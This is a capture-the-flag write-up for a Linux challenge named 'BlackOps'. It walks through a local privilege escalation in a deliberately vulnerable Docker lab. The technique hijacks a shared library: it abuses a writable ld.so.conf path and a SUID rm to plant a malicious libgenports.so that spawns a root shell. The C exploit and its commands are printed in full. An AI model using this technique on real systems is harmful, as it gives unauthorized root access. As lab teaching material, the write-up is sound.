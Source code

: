 # BlackOps

### Category

System

### Description

You asked a friend to set you up with a few samples of http server in different languages for you to test out. He opened an access to one of his machines. He didn't give you admin access, but maybe there is a way to play a trick on him ;)

The base credentials are:
```
user1:password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Note to run the challenge

Run the docker with SYS_PTRACE capibiltiy enabled.
```
docker run -p 22:22 --cap-add=SYS_PTRACE  blackops
```

### Write up

First thing we notice, is the `servers` folder. There is the following note in it:
```
Hi !

Here is the servers sample you ordered. I had troubles with some libraries on a few test systems. Removing them does the trick for now, until I find a fix.
For security reasons, you can't edit any files, but I copied you an SUID enabled copy of the rm binary, if you need to remove files in order to run the project.

Cheers
```
So we have a SUID rm binary. GTFObins does not reference a way to elevate privileges with the rm binary, so there is little chance that this alone is the way to root.

Let's check if there are other SUID enabled binaries.
```
$ find / -perm -4000 2> /dev/null
/bin/su
/bin/umount
/bin/mount
/home/user1/servers/utils/restart_servers
/home/user1/servers/rm
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/sudo
```

`/home/user1/servers/utils/restart_servers` is in the same folder, let's check it out.

```
$ file restart_servers 
restart_servers: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=037d8a491f80ebc4daa6f9c41815f0b3d49cef82, stripped
$ ./restart_servers 
[*] Cleaning all ports
	[*] Killing port 9090
	[*] Killing port 9091
	[*] Killing port 9092
[*] All ports cleaned
[*] Restart services
[*] Services restarted
```
Based on the binary output, it's used to kill the servers, free the used ports, and restart the servers.

Let's check what is going on when the binary is ran. To achieve this, I'm going to us the pspy binary.

```
scp -P 22 pspy64s user1@localhost:~
```

Let's run it and check the processes.

```
2022/05/16 13:05:47 CMD: UID=0    PID=138    | ./restart_servers 
2022/05/16 13:05:47 CMD: UID=0    PID=139    | sh -c /sbin/ldconfig 
2022/05/16 13:05:47 CMD: UID=0    PID=140    | /bin/sh /sbin/ldconfig 
2022/05/16 13:05:47 CMD: UID=0    PID=141    | /bin/kc 
2022/05/16 13:05:47 CMD: UID=0    PID=142    | /bin/fuser 9090/tcp -k 
2022/05/16 13:05:47 CMD: UID=0    PID=143    | /bin/fuser 9091/tcp -k 
2022/05/16 13:05:47 CMD: UID=0    PID=144    | /bin/fuser 9092/tcp -k 
2022/05/16 13:05:47 CMD: UID=0    PID=147    | /usr/bin/python3 /home/user1/servers/src/server.py 
2022/05/16 13:05:47 CMD: UID=0    PID=146    | /home/user1/servers/src/server.go 
2022/05/16 13:05:47 CMD: UID=0    PID=145    | /usr/bin/node /home/user1/servers/src/server.js 
```
There are a few things going on here. Our binary runs other processes:
 - ldconfig: configure dynamic linker run-time bindings
 - kc: ???
 - fuser:  identify processes using files or sockets, used to kill processes on specific ports
 - server.py
 - server.go
 - server.js

If you try to run /bin/kc, you'll understand that the process tree looks like this:
```
restart_servers
├── ldconfig
├── kc
    └─ fuser
├── server.py
├── server.js
└── server.go
```

Every call is made using the absolute path, so path injections won't be an option here.

But `ldconfig` is a very good hint. It has probably something to do with shared libraries.

```
$ ldd /bin/kc
	linux-vdso.so.1 (0x00007ffcb47e3000)
	libgenports.so => /home/user1/servers/libs/libgenports.so (0x00007f32a91b0000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f32a8dbf000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f32a95b4000)
```
The `kc` binary (kill connection) uses a shared library `/home/user1/servers/libs/libgenports.so`. The folder `/home/user1/servers/libs/` is not writable by our current user.

Let's find out, how `kc` knows where to look for the library. There are a few ways to indicate the location of a dynamic shared library. Some of then are using environment variables, like `LD_LIBRARY_PATH`. We have no indication that such variables are kept during our call at the SUID binary.

Another way is to reference the path in `/etc/ld.so.conf`.

```
$ cat /etc/ld.so.conf
include /etc/ld.so.conf.d/*.conf
$ ls /etc/ld.so.conf.d/
libc.conf  servers.conf  x86_64-linux-gnu.conf
$ cat /etc/ld.so.conf.d/servers.conf 
/home/user1/servers/libs/
/home/user1/
```
So binaries will among other things look for the shared libraries in `/home/user1/servers/libs/` and `/home/user1/` folders. The second one is our home directory, so writable by us.

Before writing the exploit, we need to figure out the name of the function that `kc` calls.

A simple strings will to the job.
```
$ strings libgenports.so 
__gmon_start__
_init
_fini
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
__cxa_finalize
genports <-----
_edata
__bss_start
_end
...
```

Let's write a generic library hijacking exploit...
```c
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void genports() {
        printf("[%] Running exploit\n");
        setreuid(geteuid(), geteuid());
        execve("/bin/sh", 0, 0);
}
```
...and compile it.
```bash
gcc -fPIC -shared -o libgenports.so exploit.c
```

Last thing is to get rid of the legitimate library using the SUID rm binary.

```
$ servers/rm servers/libs/libgenports.so 
```

We don't have to worry about relinking, because `ldconfig`  is called as root when running `restart_servers`.

```
$ ./restart_servers 
[*] Cleaning all ports
[%] Running exploit
# id
uid=0(root) gid=1000(user1) groups=1000(user1)
```

### Flag

```
Hero{h1j4cked_l1k3_1n_Bl4ck_0ps}
```
